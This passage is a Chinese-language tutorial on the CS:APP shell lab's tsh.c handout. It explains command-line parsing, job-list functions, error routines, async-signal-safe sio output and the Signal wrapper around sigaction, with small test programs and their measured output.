if (*buf == '\'' || *buf == '\"') {
/* Detect quoted tokens */
buf++;
next = strchr (buf, *(buf-1));
} else {
/* Find next delimiter */
next = buf + strcspn (buf, delims);
}
...
/* Terminate the token */
*next = '\0';这里用到三个字符串函数。strspn(s, delims) 返回 s 开头连续由 delims 中字符组成的长度，buf 加上它就跳过了前导空白；strcspn(s, delims) 返回 s 开头连续不含 delims 中字符的长度，于是 buf + strcspn(...) 指向这个词后面的第一个空白；strchr(s, c) 返回 s 中第一个字符 c 的位置，用来找配对的引号，找不到返回 NULL。找到词尾 next 之后，parseline 把 *next 改成 '\0'，这个词就成了一个独立的 C 字符串，再把指向词首的 buf 存进 argv、infile 或 outfile。
图 4 是 /bin/cat < foo > bar 解析之后静态数组和 tok 的样子。三个词后面的空格被改成了 '\0'，<、> 本身没有被修改，只是没有任何指针指向它们；tok 中的三个指针都指向 array 内部。
图 4 解析 /bin/cat < foo > bar 之后：tok 中的指针都指向 parseline 内部的静态数组
循环结束后，parseline 在 argv[argc] 处放 NULL，再依次处理两件事：
if (tok->argc == 0) /* ignore blank line */
return 1;
if (!strcmp(tok->argv[0], "quit")) { /* quit command */
tok->builtins = BUILTIN_QUIT;
} else if (!strcmp(tok->argv[0], "jobs")) { /* jobs command */
tok->builtins = BUILTIN_JOBS;
...
} else {
tok->builtins = BUILTIN_NONE;
}
/* Should the job run in the background? */
if ((is_bg = (*tok->argv[tok->argc-1] == '&')) != 0)
tok->argv[--tok->argc] = NULL;
return is_bg;strcmp 在两个字符串相等时返回 0，所以 !strcmp(a, b) 读作“a 等于 b”。最后一个参数的第一个字符是 & 时，作业在后台运行：把这个参数从 argv 中去掉（argc 减 1，原位置放 NULL），返回 1。
实测：各种命令行的解析结果#
下面的程序把 handout 的 tsh.c 整个包含进来（用 #define main tsh_main 给它的 main 改名），直接调用 parseline，打印结果：
#define main tsh_main /* 改掉 tsh.c 里 main 的名字，避免和下面的 main 冲突 */
#include "tsh.c"
#undef main
static void show(const char *cmd)
{
struct cmdline_tokens tok;
int i, ret;
tok.builtins = 99; /* 先填一个不可能的值，看 parseline 改没改 */
printf("命令行 [%s]\n", cmd);
fflush(stdout);
ret = parseline(cmd, &tok);
... /* 打印 ret、argc、argv、infile 等 */
}在默认环境上运行，结果整理成 表 8（argv 只列到 NULL 之前；“—”表示 NULL）：
表 8 parseline 对各种命令行的解析结果（默认环境实测）
| 命令行 | 返回 | argv | infile | outfile | builtins |
|---|---|---|---|---|---|
| /bin/ls -l -d | 0 | "/bin/ls" "-l" "-d" | — | — | NONE |
| /bin/ls -l -d & | 1 | "/bin/ls" "-l" "-d" | — | — | NONE |
| ./myspin1 10& | 0 | "./myspin1" "10&" | — | — | NONE |
| jobs | 0 | "jobs" | — | — | JOBS |
| jobs > foo | 0 | "jobs" | — | "foo" | JOBS |
| bg %2 | 0 | "bg" "%2" | — | — | BG |
| fg 12345 | 0 | "fg" "12345" | — | — | FG |
| kill %-1 | 0 | "kill" "%-1" | — | — | KILL |
| nohup ./myspin1 5 & | 1 | "nohup" "./myspin1" "5" | — | — | NOHUP |
| /bin/cat < foo > bar | 0 | "/bin/cat" | "foo" | "bar" | NONE |
| /bin/cat >bar <foo | 0 | "/bin/cat" | "foo" | "bar" | NONE |
| /bin/echo 'hello world' "a b" | 0 | "/bin/echo" "hello world" "a b" | — | — | NONE |
| （空行）或几个空格 | 1 | （argc = 0） | — | — | 未设置 |
| & | 1 | （argc = 0） | — | — | NONE |
| quitx | 0 | "quitx" | — | — | NONE |
格式错误时，parseline 先打印一行错误信息再返回 −1。main 中有 dup2(1, 2)，这些写到 stderr 的信息也出现在标准输出上（第 1.15 节）：
命令行 [/bin/cat < foo < bar]
Error: Ambiguous I/O redirection
返回值 -1（格式错误，tok 的其余内容不可用）
命令行 [/bin/cat < > x]
Error: Ambiguous I/O redirection
返回值 -1（格式错误，tok 的其余内容不可用）
命令行 [/bin/cat >]
Error: must provide file name for redirection
返回值 -1（格式错误，tok 的其余内容不可用）
命令行 [/bin/echo 'abc]
Error: unmatched '.
返回值 -1（格式错误，tok 的其余内容不可用）从这些结果可以读出写 eval 时要注意的几件事。第一，返回值 1 并不总是“后台作业”：空行也返回 1，而且此时 builtins 根本没有被赋值，结构体里是什么就还是什么，所以骨架先检查 tok.argv[0] == NULL，必须放在使用 builtins 之前。第二，& 必须是单独的一个词（准确地说，是最后一个词以 & 开头）；./myspin1 10& 被当作前台作业，参数是 "10&"，这与 tshref 的行为一致。第三，重定向的文件名不在 argv 中，argv 可以直接交给 execve，打开文件要用 infile、outfile。第四，bg、fg、kill 的参数仍是字符串，"%2" 和 "12345" 要自己判断是作业号还是进程号并转换成整数；"%-1" 这样的负数参数也原样保留。第五，nohup 的 argv[0] 是 "nohup"，真正要运行的程序是 argv[1]，它的参数数组是 &tok.argv[1]。第六，内置命令必须整词匹配，"quitx" 不是 quit。
argv 中的字符串会被下一次调用覆盖#
注释中的 Note 一句很重要：argv、infile、outfile 中的字符串都存放在 parseline 的静态数组 array 中，下一次调用 parseline 时会被覆盖。
/* keep.c：parseline 返回的字符串都指向它内部的静态数组，下一次调用会把它们覆盖 */
#define main tsh_main
#include "tsh.c"
#undef main
int main(void)
{
struct cmdline_tokens tok;
char *saved;
parseline("./myspin1 100 &", &tok);
saved = tok.argv[0]; /* 只保存了指针，没有复制字符串 */
printf("第一次解析后 saved = \"%s\"\n", saved);
parseline("/bin/echo hi", &tok);
printf("第二次解析后 saved = \"%s\"\n", saved);
printf("saved == tok.argv[0]：%s\n", saved == tok.argv[0] ? "是同一个地址" : "不同");
return 0;
}第一次解析后 saved = "./myspin1"
第二次解析后 saved = "/bin/echo"
saved == tok.argv[0]：是同一个地址在 tsh 中这不会造成问题，因为每个作业要长期保存的只有命令行文本，而 addjob 会用 strcpy 把命令行复制到作业结构体的 cmdline 数组里。加入作业时传给 addjob 的应当是 eval 的参数 cmdline（完整的一行），不是 argv[0]。
常见问题：parseline 返回 1 时，可以直接认为是后台作业吗？
不可以。parseline 对空行（包括只有空格、只有一个 & 的行）也返回 1，此时 argc 为 0、argv[0] 为 NULL。只有在确认 argv[0] 不是 NULL 之后，返回值 1 才表示后台作业，这正是 eval 骨架中两个 if 的顺序。
同样，空行时 builtins 字段没有被赋值（上表中“未设置”一行）：实测程序先在 builtins 中填了 99，解析空行之后它仍是 99。在检查 argv[0] 之前读 builtins，读到的是一个随机的值。
1.11 作业列表函数（第 424–603 行）#
九个函数都围绕 job_list 数组工作，每个都只有几行到二十几行。下面先列出代码，再用一个实验观察它们的行为。
/* clearjob - Clear the entries in a job struct */
void
clearjob(struct job_t *job) {
job->pid = 0;
job->jid = 0;
job->state = UNDEF;
job->cmdline[0] = '\0';
}
/* initjobs - Initialize the job list */
void
initjobs(struct job_t *job_list) {
int i;
for (i = 0; i < MAXJOBS; i++)
clearjob(&job_list[i]);
}
/* maxjid - Returns largest allocated job ID */
int
maxjid(struct job_t *job_list)
{
int i, max=0;
for (i = 0; i < MAXJOBS; i++)
if (job_list[i].jid > max)
max = job_list[i].jid;
return max;
}clearjob 把一个槽位的四个字段清零，&job_list[i] 是第 i 个槽位的地址；initjobs 对 16 个槽位都调用一次 clearjob，main 在启动时调用它。maxjid 返回当前最大的作业号，只在 deletejob 内部使用。这三个函数自己的代码一般都不需要调用。
/* addjob - Add a job to the job list */
int
addjob(struct job_t *job_list, pid_t pid, int state, char *cmdline)
{
int i;
if (pid < 1)
return 0;
for (i = 0; i < MAXJOBS; i++) {
if (job_list[i].pid == 0) {
job_list[i].pid = pid;
job_list[i].state = state;
job_list[i].jid = nextjid++;
if (nextjid > MAXJOBS)
nextjid = 1;
strcpy(job_list[i].cmdline, cmdline);
if(verbose){
printf("Added job [%d] %d %s\n",
job_list[i].jid,
job_list[i].pid,
job_list[i].cmdline);
}
return 1;
}
}
printf("Tried to create too many jobs\n");
return 0;
}
/* deletejob - Delete a job whose PID=pid from the job list */
int
deletejob(struct job_t *job_list, pid_t pid)
{
int i;
if (pid < 1)
return 0;
for (i = 0; i < MAXJOBS; i++) {
if (job_list[i].pid == pid) {
clearjob(&job_list[i]);
nextjid = maxjid(job_list)+1;
return 1;
}
}
return 0;
}addjob 在 eval 中 fork 出子进程之后调用：参数是子进程的 pid、初始状态（FG 或 BG）和整行命令。它找到第一个空槽位，写入 pid 和状态，分配作业号 nextjid 并把 nextjid 加 1，再把命令行复制进去。成功返回 1；pid 小于 1 或者 16 个槽位都满了时返回 0。新作业的 jid 是多少，可以在调用之后用 pid2jid(pid) 查到，后台作业要打印的“[jid] (pid) 命令行”就需要它。
deletejob 在子进程终止、被 waitpid 回收之后调用，按 pid 找到槽位并清空，然后把 nextjid 重新设为“当前最大的作业号 + 1”。这条规则让作业号尽量小：删掉编号最大的作业后，它的编号会被下一个作业重新使用。
/* fgpid - Return PID of current foreground job, 0 if no such job */
pid_t
fgpid(struct job_t *job_list) {
int i;
for (i = 0; i < MAXJOBS; i++)
if (job_list[i].state == FG)
return job_list[i].pid;
return 0;
}
/* getjobpid - Find a job (by PID) on the job list */
struct job_t
*getjobpid(struct job_t *job_list, pid_t pid) {
int i;
if (pid < 1)
return NULL;
for (i = 0; i < MAXJOBS; i++)
if (job_list[i].pid == pid)
return &job_list[i];
return NULL;
}
/* getjobjid - Find a job (by JID) on the job list */
struct job_t *getjobjid(struct job_t *job_list, int jid)
{
int i;
if (jid < 1)
return NULL;
for (i = 0; i < MAXJOBS; i++)
if (job_list[i].jid == jid)
return &job_list[i];
return NULL;
}
/* pid2jid - Map process ID to job ID */
int
pid2jid(pid_t pid)
{
int i;
if (pid < 1)
return 0;
for (i = 0; i < MAXJOBS; i++)
if (job_list[i].pid == pid) {
return job_list[i].jid;
}
return 0;
}这四个是查询函数。fgpid 返回前台作业的 pid，没有前台作业时返回 0：sigint_handler、sigtstp_handler 用它找到要转发信号的对象，eval 等待前台作业结束时用它判断“前台作业还在不在”。getjobpid 和 getjobjid 分别按 pid、按 jid 查找，返回的是指向槽位的指针，通过它可以读出作业的任何字段，也可以直接修改 state。找不到时返回 NULL，使用返回值之前一定要先判断是不是 NULL，否则对 NULL 取字段会导致段错误。bg、fg、kill 三个内置命令都靠这两个函数把参数换成作业。pid2jid 把 pid 换成 jid，找不到返回 0，它在处理程序里打印“Job [jid] (pid) ...”这类信息时很方便。
void
listjobs(struct job_t *job_list, int output_fd)
{
int i;
char buf[MAXLINE << 2];
for (i = 0; i < MAXJOBS; i++) {
memset(buf, '\0', MAXLINE);
if (job_list[i].pid != 0) {
sprintf(buf, "[%d] (%d) ", job_list[i].jid, job_list[i].pid);
if(write(output_fd, buf, strlen(buf)) < 0) { ... exit(1); }
...
switch (job_list[i].state) {
case BG: sprintf(buf, "Running "); break;
case FG: sprintf(buf, "Foreground "); break;
case ST: sprintf(buf, "Stopped "); break;
...
}
...
sprintf(buf, "%s\n", job_list[i].cmdline);
...
}
}
}listjobs 就是内置命令 jobs 的全部工作：按数组下标的顺序，把每个非空槽位写成一行“[jid] (pid) 状态 命令行”。它的第二个参数是一个文件描述符，而不是 FILE 指针：一般情况下传 STDOUT_FILENO（即 1）；jobs > foo 时，先用 open 打开 foo 得到一个描述符，把它传给 listjobs，用完再 close。listjobs 用 write 直接写描述符，不经过 stdio 的缓冲区，所以不需要 fflush。
实测：jid 的分配、查找与 listjobs 的输出#
下面的程序同样包含 handout 的 tsh.c，依次加入、修改、删除作业，每一步打印作业列表的内容。
initjobs(job_list);
addjob(job_list, 1001, BG, "./myspin1 100 &");
addjob(job_list, 1002, BG, "./myspin2 100 &");
addjob(job_list, 1003, FG, "./myspin1 5");
show("加入 1001、1002、1003 之后");
j = getjobjid(job_list, 2);
printf("getjobjid(job_list, 2) -> pid = %d\n", j ? (int)j->pid : -1);
...
listjobs(job_list, STDOUT_FILENO);
j = getjobpid(job_list, 1003);
j->state = ST; /* 状态是普通的 int 字段，直接赋值即可 */
listjobs(job_list, STDOUT_FILENO);
deletejob(job_list, 1002);
addjob(job_list, 1004, BG, "./myspin1 7 &");
deletejob(job_list, 1004);
deletejob(job_list, 1003);加入 1001、1002、1003 之后 nextjid = 4，maxjid = 3，fgpid = 1003
job_list[0]: pid = 1001, jid = 1, state = 2, cmdline = "./myspin1 100 &"
job_list[1]: pid = 1002, jid = 2, state = 2, cmdline = "./myspin2 100 &"
job_list[2]: pid = 1003, jid = 3, state = 1, cmdline = "./myspin1 5"
getjobjid(job_list, 2) -> pid = 1002
getjobpid(job_list, 1003) -> jid = 3, state = 1
getjobjid(job_list, 9) -> NULL
getjobpid(job_list, 0) -> NULL
pid2jid(1002) = 2，pid2jid(4242) = 0
--- listjobs(job_list, STDOUT_FILENO) ---
[1] (1001) Running ./myspin1 100 &
[2] (1002) Running ./myspin2 100 &
[3] (1003) Foreground ./myspin1 5
--- 把 1003 的 state 改成 ST 之后 ---
[1] (1001) Running ./myspin1 100 &
[2] (1002) Running ./myspin2 100 &
[3] (1003) Stopped ./myspin1 5
deletejob(1002) 之后 nextjid = 4，maxjid = 3，fgpid = 0
再加入 1004 之后 nextjid = 5，maxjid = 4，fgpid = 0
job_list[0]: pid = 1001, jid = 1, state = 2, cmdline = "./myspin1 100 &"
job_list[1]: pid = 1004, jid = 4, state = 2, cmdline = "./myspin1 7 &"
job_list[2]: pid = 1003, jid = 3, state = 3, cmdline = "./myspin1 5"
删除 1004、1003 之后 nextjid = 2，maxjid = 1，fgpid = 0
job_list[0]: pid = 1001, jid = 1, state = 2, cmdline = "./myspin1 100 &"
deletejob(job_list, 4242) 返回 0输出中可以看到几条规律。state 打印出来是数字，2、1、3 分别是 BG、FG、ST。删除 jid 为 2 的作业后，nextjid 仍是 4（最大的 jid 还是 3），所以新作业 1004 得到 jid 4，却放进了下标 1 的空槽位（图 3）；此时 listjobs 按下标输出，顺序是 [1]、[4]、[3]，并不按作业号排序。再删掉 jid 为 4 和 3 的作业后，nextjid 回到 2，下一个作业又会得到 2。把 1003 的 state 改成 ST 之后，fgpid 返回 0，listjobs 显示 Stopped：修改作业状态就是给这个 int 字段赋值。
槽位全满和 verbose 的情况：
addjob(pid = 0) 返回 0
已加入 16 个作业，最后一个 jid = 16，nextjid = 1
Tried to create too many jobs
第 17 个 addjob 返回 0
--- verbose = 1 时 addjob 的输出 ---
Added job [1] 5000 /bin/echo hi第 16 个作业得到 jid 16 之后，nextjid 超过 MAXJOBS，回到 1。
常见问题：作业列表函数可以在信号处理程序里调用吗？
fgpid、getjobpid、getjobjid、pid2jid、deletejob 只读写 job_list 这个全局数组，不调用任何不安全的库函数，可以在处理程序中调用；sigchld_handler 正是要用 getjobpid 找到作业、用 deletejob 删除作业、或者把 state 改成 ST。addjob 和 listjobs 不行：addjob 在 verbose 模式下调用 printf，listjobs 调用 sprintf，它们都不是异步信号安全的函数，而且处理程序也没有调用它们的需要。
真正的危险在另一面：主程序（eval）和处理程序都会修改 job_list，如果 eval 正在 addjob 的过程中，SIGCHLD 到来、sigchld_handler 去 deletejob，作业列表就可能被改乱；更典型的是子进程在 addjob 之前就已经结束，处理程序先删除了一个还不存在的作业，然后 eval 才把它加进去，这个作业就永远留在列表里。实验说明 §8 的办法是：在 fork 之前用 sigprocmask 阻塞 SIGCHLD、SIGINT、SIGTSTP，addjob 之后再解除阻塞（教材 8.5.6 节）。
1.12 出错处理函数（第 607–642 行）#
/*
* usage - print a help message
*/
void
usage(void)
{
printf("Usage: shell [-hvp]\n");
printf(" -h print this message\n");
printf(" -v print additional diagnostic information\n");
printf(" -p do not emit a command prompt\n");
exit(1);
}
/*
* unix_error - unix-style error routine
*/
void
unix_error(char *msg)
{
fprintf(stdout, "%s: %s\n", msg, strerror(errno));
exit(1);
}
/*
* app_error - application-style error routine
*/
void
app_error(char *msg)
{
fprintf(stdout, "%s\n", msg);
exit(1);
}三个函数都是打印一条信息后用 exit(1) 结束整个进程，调用之后不会返回。usage 只在 main 解析 tsh 自己的命令行选项时使用（./tsh -h 或者给了不认识的选项）。
unix_error 用于系统调用失败。Unix 系统调用失败时通常返回 −1，并把出错原因的编号存进全局变量 errno；strerror(errno) 把这个编号翻译成一句英文说明。所以典型的用法是“调用、检查返回值、失败就报错”，例如：
if ((pid = fork()) < 0)
unix_error("fork error"); /* 打印 fork error: 和出错原因 */app_error 用于不是系统调用的错误，它不读 errno。main 中 fgets 出错时调用的就是它。
使用这两个函数时要想清楚“该不该退出整个 shell”。fork、sigprocmask 失败说明系统出了严重问题，退出是合理的；但用户输入了一个不存在的程序，导致子进程中的 execve 失败，这时退出的只能是子进程，shell 本身必须继续运行，而且 tshref 对这种情况打印的提示语有固定格式，不能直接套用 unix_error。另外，这三个函数都调用 printf 或 fprintf 和 exit，都不是异步信号安全的，信号处理程序中出错要用 sio_error（第 1.13 节）。
1.13 安全输出 sio 系列（第 644–779 行）#
信号处理程序可能在主程序执行到任何一条指令时被调用，包括主程序正在 printf 内部的时候。printf 内部要修改 stdout 的缓冲区和记录缓冲区状态的变量，如果它执行到一半被打断、处理程序又调用 printf，两次调用会交错地修改同一个缓冲区，输出可能错乱、重复或丢失；malloc 这类内部用锁保护数据的函数被打断后再次调用，还可能等待一个永远不会被释放的锁，进程就卡死了（实验说明 §8 说的 deadlock）。能在处理程序中安全调用的函数称为异步信号安全函数（教材 8.5.5 节），write、_exit、kill、waitpid、sigprocmask 等系统调用都在其中，printf、sprintf、malloc、exit 不在其中。
sio（safe I/O）系列就是只用 write 实现的输出函数：
ssize_t sio_puts(char s[]) /* Put string */
{
return write(STDOUT_FILENO, s, sio_strlen(s));
}
ssize_t sio_putl(long v) /* Put long */
{
char s[128];
sio_ltoa(v, s, 10); /* Based on K&R itoa() */
return sio_puts(s);
}
void sio_error(char s[]) /* Put error message and exit */
{
sio_puts(s);
_exit(1);
}sio_puts 输出一个字符串，sio_putl 输出一个整数，sio_error 输出一个字符串后用 _exit(1) 立即结束进程（_exit 是 exit 的系统调用版本，不刷新 stdio 缓冲区，不调用 atexit 注册的函数，因而是异步信号安全的）。它们用到的 sio_strlen、sio_ltoa、sio_reverse 是文件内部的 static 函数，作用分别是求字符串长度、把整数转成十进制字符串、把字符串反转，都不调用任何库函数。
只用这两个函数，打印一行“Job [1] (21357) terminated by signal 2”要调用七次。实验提供的 sio_put 把它简化成一次，用法与 printf 类似，但只认识两种格式：%d（一个 int）和 %%（一个百分号）。
ssize_t sio_put(const char *fmt, ...) // Put to the console. only understands %d
{
va_list ap;
char str[MAXLINE]; // formatted string
char arg[128];
...
va_start(ap, fmt);
while(fmt[j]){
if(fmt[j] != '%'){ j++; continue; }
sio_copy(str + sp, fmt + i, j - i); /* 先复制 % 之前的普通字符 */
sp += j - i;
switch(fmt[j + 1]){
case 0: ... /* % 在末尾：输出已有内容后返回 */
case 'd': v = va_arg(ap, int); /* 取下一个 int 参数，转成字符串接上 */
sio_ltoa(v, arg, 10); ...
case '%': sio_copy(str + sp, "%", 1); ...
default: sio_copy(str + sp, fmt + j, 2); ... /* 其他格式：原样照抄两个字符 */
}
}
...
return write(STDOUT_FILENO, str, sp);
}sio_put 的参数表中的 ... 表示可变参数，用 stdarg.h 中的 va_list、va_start、va_arg、va_end 逐个取出。它先把整行拼接在局部数组 str 中，最后只调用一次 write，所以一行输出不会被别的输出从中间打断。
实测：sio 系列能做什么、不能做什么#
n = sio_puts("sio_puts: hello\n");
sio_put(" （返回值 %d）\n", (int)n);
sio_putl(15213);
sio_puts("\n");
sio_putl(-1);
sio_puts(" <- sio_putl(-1) 的输出\n");
n = sio_put("Job [%d] (%d) terminated by signal %d\n", 1, 21357, 2);
sio_put(" （返回值 %d）\n", (int)n);
sio_put("100%% 完成\n");
sio_put("负数：%d\n", -15);
sio_put("%%s 不支持：%s\n", "abc");
sio_put("%%ld 不支持：%ld\n", 123L);
sio_put("%%5d 不支持：[%5d]\n", 7);
sio_put("末尾只有一个百分号 %");
sio_puts("\n");
sio_error("sio_error：输出这一行后以退出码 1 结束进程\n");
sio_puts("这一行不会出现\n");sio_puts: hello
（返回值 16）
15213
/ <- sio_putl(-1) 的输出
Job [1] (21357) terminated by signal 2
（返回值 39）
100% 完成
负数：+
%s 不支持：%s
%ld 不支持：%ld
%5d 不支持：[%5d]
末尾只有一个百分号
sio_error：输出这一行后以退出码 1 结束进程
退出码 1返回值是写出的字节数，“sio_puts: hello\n”是 16 字节，“Job [1] (21357) terminated by signal 2\n”是 39 字节。正整数、%d、%% 都正常。但有三处与 printf 不同，写处理程序时要避开：
- 负数输出错误。sio_ltoa 照搬了 K&R 书中的 itoa，没有处理负数：-1 % 10 在 C 中是 -1，加上 '0'（48）得到 47，即字符 '/'；-15 % 10 是 -5，得到 43，即 '+'，然后循环条件 (v /= b) > 0 不成立就结束了。tsh 要打印的 pid、jid、信号编号都是正数，不受影响。
- 只认识 %d 和 %%。%s、%ld、%5d 都被原样照抄，后面的参数被忽略。要输出一个字符串（例如作业的命令行），先用 sio_put 输出前半部分，再用 sio_puts 输出字符串。
- 格式串末尾单独的一个 % 被丢掉，不会输出。
另外，拼接后的一行不能达到 MAXLINE（1024）字节，否则只输出“sio_put: Line too long!”并返回 −1。
常见问题：主程序（eval）里也必须用 sio_put 吗？
不必。printf 的问题只在信号处理程序中：处理程序可能打断正在 printf 的主程序。eval 是主程序本身，用 printf 是安全的；只是要记得 tsh 的标准输出在测试时连接的是管道，printf 的内容会先留在缓冲区里，main 在每次 eval 返回后才调用 fflush(stdout)。如果 eval 用 printf 输出、处理程序用 sio_put 输出，两者的先后顺序可能与执行顺序不一致。统一在 eval 和处理程序中都用 sio_put 输出，是避免这类顺序问题的简单办法。
1.14 handler_t 与 Signal（第 108–109 行、第 781–796 行）#
函数类型与函数指针#
typedef void handler_t(int);
handler_t *Signal(int signum, handler_t *handler);typedef 原类型 新名字; 给一个类型起别名。这里的原类型比较特别：把 void handler_t(int); 看作一个函数声明，handler_t 就是“参数为一个 int、没有返回值的函数”这种函数类型的名字。信号处理程序恰好都是这个样子：void sigint_handler(int sig) 接收一个信号编号，什么也不返回。
handler_t * 是“指向这种函数的指针”。在 C 中，函数名后面不加括号就表示函数的地址，所以 sigint_handler 本身就是一个 handler_t * 类型的值，可以作为参数传递、存进变量。于是第 109 行读作：Signal 接收一个信号编号 signum 和一个处理函数的地址 handler，返回一个处理函数的地址。如果不用 typedef，同一个声明要写成
void (*Signal(int signum, void (*handler)(int)))(int);这正是标准库中 signal 函数的声明形式，typedef 让它容易读得多。除了真正的函数地址，handler 还可以是 signal.h 中定义的两个特殊值：SIG_DFL 表示恢复默认行为（SIGINT、SIGTERM 的默认行为是终止进程，SIGTSTP 是停止，SIGCHLD 是忽略），SIG_IGN 表示忽略这个信号。在默认环境上它们的值分别是 0 和 1（见下文实验 ret.c 的输出），不可能与真正的函数地址冲突。
Signal 的实现#
/*
* Signal - wrapper for the sigaction function
*/
handler_t
*Signal(int signum, handler_t *handler)
{
struct sigaction action, old_action;
action.sa_handler = handler;
sigemptyset(&action.sa_mask); /* block sigs of type being handled */
action.sa_flags = SA_RESTART; /* restart syscalls if possible */
if (sigaction(signum, &action, &old_action) < 0)
unix_error("Signal error");
return (old_action.sa_handler);
}真正设置信号处理方式的系统调用是 sigaction。它的参数是一个 struct sigaction，描述“收到这个信号时怎么办”，其中有三个字段要填：
- sa_handler：处理函数的地址，或者 SIG_DFL、SIG_IGN；
- sa_mask：处理程序运行期间额外阻塞的信号集合；
- sa_flags：一组选项。
sigaction 的第三个参数用来取回原来的设置。Signal 把这些细节固定下来：sa_mask 用 sigemptyset 置为空集，sa_flags 只设置 SA_RESTART，调用 sigaction，失败时调用 unix_error 退出，成功时返回原来的处理函数。图 5 画出了一次 Signal(SIGINT, sigint_handler) 前后内核中这个进程的信号处理表。
图 5 Signal(SIGINT, sigint_handler) 做了什么：填好 struct sigaction，交给 sigaction，取回原来的处理方式
第 790 行的注释“block sigs of type being handled”容易误解：sa_mask 被置为空集，并没有额外阻塞任何信号。注释说的是 sigaction 的默认行为：处理程序运行期间，正在处理的这一种信号自动被阻塞（除非在 sa_flags 中设置 SA_NODEFER）。所以用 Signal 安装之后，处理程序运行时：同一种信号再来，只会成为“待处理”，等处理程序返回后再处理；而且待处理信号不排队，来了多个也只算一个。别的信号不受影响，可以打断正在运行的处理程序。
SA_RESTART 解决另一个问题。进程阻塞在 read、wait 这类可能长时间等待的系统调用中时，如果有信号到来并执行了处理程序，处理程序返回后，这个系统调用默认会失败返回 −1，errno 为 EINTR（interrupted system call）。设置了 SA_RESTART，内核会自动重新开始这个系统调用，调用者察觉不到中断。对 tsh 来说这一点至关重要：shell 大部分时间阻塞在 main 的 fgets（内部是 read）中等待用户输入，后台作业随时可能结束并带来 SIGCHLD；没有 SA_RESTART，fgets 会因 EINTR 返回 NULL 且 ferror(stdin) 为真，main 就调用 app_error("fgets error") 退出了。
实测：返回值、SA_RESTART、处理程序运行期间的阻塞、execve 之后#
四个小程序都包含 handout 的 tsh.c，用的就是 tsh.c 中的 Signal。第一个看 Signal 的返回值：
static void h1(int sig) { (void)sig; }
static void h2(int sig) { (void)sig; }
...
old = Signal(SIGINT, h1);
printf("Signal(SIGINT, h1) 返回 %s\n", name(old));
old = Signal(SIGINT, h2);
printf("Signal(SIGINT, h2) 返回 %s\n", name(old));
old = Signal(SIGINT, SIG_IGN);
printf("Signal(SIGINT, SIG_IGN) 返回 %s\n", name(old));
old = Signal(SIGINT, old); /* 用返回值恢复上一次的设置 */
printf("Signal(SIGINT, old) 返回 %s，现在 SIGINT 的处理方式又是 h2\n", name(old));
printf("SIG_DFL = %p，SIG_IGN = %p，SIG_ERR = %p\n",
(void *)SIG_DFL, (void *)SIG_IGN, (void *)SIG_ERR);
printf("sizeof(handler_t *) = %zu\n", sizeof(handler_t *));
/* SIGKILL 不能捕获：sigaction 失败，Signal 调用 unix_error 退出 */
Signal(SIGKILL, h1);
printf("这一行不会出现\n");Signal(SIGINT, h1) 返回 SIG_DFL
Signal(SIGINT, h2) 返回 h1
Signal(SIGINT, SIG_IGN) 返回 h2
Signal(SIGINT, old) 返回 SIG_IGN，现在 SIGINT 的处理方式又是 h2
SIG_DFL = (nil)，SIG_IGN = 0x1，SIG_ERR = 0xffffffffffffffff
sizeof(handler_t *) = 8
Signal error: Invalid argument
（退出码 1）返回值总是这一次调用之前的处理方式，第一次安装时是 SIG_DFL。把返回值存起来，以后再传给 Signal，就能恢复原来的设置。main 中的六次调用都没有使用返回值，tsh 中一般也用不到它。SIGKILL 和 SIGSTOP 不能被捕获或忽略，对它们调用 sigaction 会失败（EINVAL），Signal 随即打印“Signal error: Invalid argument”并退出。
第二个程序在 read 等待输入的过程中用 alarm 安排一个 SIGALRM，对比用 Signal 安装（带 SA_RESTART）和 sa_flags 为 0 的两种情况；管道另一端 2 秒后才写入 hello，SIGALRM 在 1 秒时到达：
static void on_alarm(int sig) { (void)sig; sio_puts(" [SIGALRM 处理程序运行了]\n"); }
...
if (argc > 1) { /* 不带 SA_RESTART 的安装方式 */
struct sigaction act;
act.sa_handler = on_alarm;
sigemptyset(&act.sa_mask);
act.sa_flags = 0;
sigaction(SIGALRM, &act, NULL);
} else {
Signal(SIGALRM, on_alarm); /* tsh.c 的 Signal：SA_RESTART */
}
alarm(1);
n = read(STDIN_FILENO, buf, sizeof buf - 1);用 Signal 安装（SA_RESTART）：
[SIGALRM 处理程序运行了]
read 返回 6，读到 hello
sa_flags = 0：
[SIGALRM 处理程序运行了]
read 返回 -1，errno = Interrupted system call第三个程序让子进程向父进程先发一个 SIGUSR1，在 USR1 的处理程序运行期间（它忙等 0.6 秒）再连发两个 SIGUSR1 和一个 SIGUSR2：
static void h_usr1(int sig)
{
(void)sig;
sio_puts("USR1 处理程序：开始\n");
spin_ms(600);
sio_puts("USR1 处理程序：结束\n");
}
static void h_usr2(int sig)
{
(void)sig;
sio_puts(" USR2 处理程序（打断了 USR1 的处理程序）\n");
}
...
Signal(SIGUSR1, h_usr1);
Signal(SIGUSR2, h_usr2);
if (fork() == 0) {
usleep(100000); kill(parent, SIGUSR1); /* 第 1 个 USR1 */
usleep(200000); kill(parent, SIGUSR1); /* 第 2、3 个：处理程序正在运行 */
kill(parent, SIGUSR1);
usleep(100000); kill(parent, SIGUSR2); /* 一个 USR2 */
_exit(0);
}USR1 处理程序：开始
USR2 处理程序（打断了 USR1 的处理程序）
USR1 处理程序：结束
USR1 处理程序：开始
USR1 处理程序：结束
main 结束：发了 3 个 USR1，处理程序运行了几次见上发了 3 个 USR1，处理程序只运行了 2 次：第 2、3 个到达时 USR1 正被阻塞，两个合并成了一个待处理信号。USR2 没有被阻塞，直接打断了 USR1 的处理程序。这两个现象对 tsh 都有直接的后果：几个子进程几乎同时结束时，sigchld_handler 可能只被调用一次，所以它必须用循环把所有已经结束的子进程都回收掉（waitpid 加 WNOHANG，教材 8.5.7 节）；sigint_handler 运行时也可能被 sigchld_handler 打断。
第四个程序设置一个自定义处理程序、忽略 SIGTTOU、阻塞 SIGCHLD，然后 fork 并 execve 它自己，让新程序报告继承到的设置：
exec 之前：SIGINT 自定义处理程序，SIGTTOU 忽略，SIGCHLD 被阻塞
exec 之后 SIGINT ：处理方式 SIG_DFL，未阻塞
exec 之后 SIGTTOU：处理方式 SIG_IGN，未阻塞
